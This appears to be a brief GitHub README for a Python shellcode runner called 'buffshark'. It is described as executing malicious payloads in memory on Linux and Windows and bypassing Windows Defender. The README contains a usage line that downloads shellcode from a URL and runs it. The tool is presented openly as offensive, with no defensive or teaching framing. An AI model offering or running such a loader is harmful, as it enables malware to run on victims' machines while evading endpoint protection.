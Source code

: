 # buffshark-shellcode-runner

# Python Shellcode Runner for executing malicious payload
This script utilizes mmap(for linux) and win32 api wrappers (for windows) to execute shellcode in memory and bypass Windows Defender.

# Usage
Example: `python3 buffshark.py -u http://127.0.0.1:8080/shellcode.bin -a [win/nix]`
